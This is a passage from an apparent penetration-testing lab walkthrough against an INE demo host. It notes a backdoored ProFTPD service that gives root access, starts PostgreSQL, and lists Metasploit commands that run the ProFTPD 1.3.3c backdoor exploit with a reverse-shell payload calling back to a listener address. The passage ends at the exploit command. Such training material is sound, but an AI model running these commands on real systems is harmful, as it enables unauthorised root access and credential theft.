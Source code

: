 ```bash
```

#### **🚨 Critical Discovery:**
- **Backdoor detected** in ProFTPD installation
- **Root access available** through the backdoor (uid=0)
- **Command execution confirmed** with 'id' command
- **High privilege access** from the start

#### **Why This is Perfect:**
Finding a backdoor with root access means we can immediately proceed to password extraction without needing privilege escalation.

---

### **Step 4: Prepare Exploitation Environment**

**What We're Doing:** Setting up the database and framework for exploitation

#### **Command Used:**
```bash
/etc/init.d/postgresql start
```

#### **What Happened:**
```bash
Starting PostgreSQL 16 database server: main.
```

#### **🛠️ Why This is Important:**
- **Metasploit requires PostgreSQL** to store session data and results
- **Database enables advanced features** like workspace management
- **Session tracking** for multiple concurrent attacks
- **Result preservation** for reporting and documentation

#### **Verification:**
The database startup confirms our exploitation framework is ready for complex operations.

---

### **Step 5: Exploit the Backdoor Vulnerability**

**What We're Doing:** Using Metasploit to gain access through the discovered backdoor

#### **Commands Used:**
```bash
msfconsole -q
use exploit/unix/ftp/proftpd_133c_backdoor
set payload payload/cmd/unix/reverse
set RHOSTS demo.ine.local
set LHOST 192.70.114.2
exploit -z
```
